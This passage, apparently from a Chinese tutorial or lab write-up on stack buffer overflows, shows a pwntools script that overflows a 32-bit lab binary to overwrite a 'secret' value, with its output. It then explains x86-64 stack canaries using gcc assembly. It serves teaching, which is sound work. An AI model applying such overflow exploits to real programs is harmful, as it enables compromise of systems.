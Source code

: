 观察到 `secret` 被覆盖为 `0x41414141`。

现在只需要把 payload32.bin 中最后四个字节改成预期的 `secret` 值 `0x1234` 即可。

```python
import pwn
import struct

proc = pwn.process('./question32')
b = struct.pack('@l', 0x1234)
proc.sendline(b'\x41'*100 + b)
print(proc.recv().decode())

```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-1 » python exploit32.py
[+] Starting local process './question32': pid 640653
[*] Process './question32' stopped with exit code 0 (pid 640653)
buffer: 0xffc0bf88, secret: 0xffc0bfec
cool!

```

### 64位栈上缓冲区溢出

x86-64架构下的栈上缓冲区溢出和 32 位架构有所不同，主要区别在于 64位 ELF 多了很多保护机制，直接影响栈上缓冲区溢出的就有 stack canary。

#### stack canary

关于 stack canary 机制的解释摘录如下。

> Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.

尝试让 gcc 吐出带 canary 的汇编如下，命令 `gcc -S question.c -g -O0 -fstack-protector -o question64.s`

```assembly
main:
	endbr64
	pushq	%rbp
	movq	%rsp, %rbp
	addq	$-128, %rsp
	movq	%fs:40, %rax
	movq	%rax, -8(%rbp)
	xorl	%eax, %eax
	movl	$305419896, -116(%rbp)
	movq	$0, -112(%rbp)
	movq	$0, -104(%rbp)
	movq	$0, -96(%rbp)
	movq	$0, -88(%rbp)
	// 略
    movl	$0, %eax
	movq	-8(%rbp), %rdx
	subq	%fs:40, %rdx
	je	.L5
	call	__stack_chk_fail@PLT
.L5:
	leave
	ret
```
